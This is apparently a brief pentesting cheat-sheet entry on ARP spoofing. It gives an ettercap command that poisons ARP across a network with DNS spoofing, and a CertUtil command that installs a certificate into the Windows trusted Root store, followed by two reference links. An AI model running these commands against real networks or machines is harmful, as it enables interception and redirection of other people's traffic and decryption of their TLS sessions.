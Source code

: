 # ARP Spoofing

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M arp // //

C:\> CertUtil.exe -addstore "Root" "C:\path\to\cert.pem"
```

---
## References

- [Hacking Articles: Comprehensive Guide on Sniffing](https://www.hackingarticles.in/comprehensive-guide-on-sniffing/)

- [Joakim Uddholm: Ettercap, Arpspoof and DNSSpoof Examples](https://joakim.uddholm.com/posts/ettercap-arpspoof-and-dnsspoof-examples)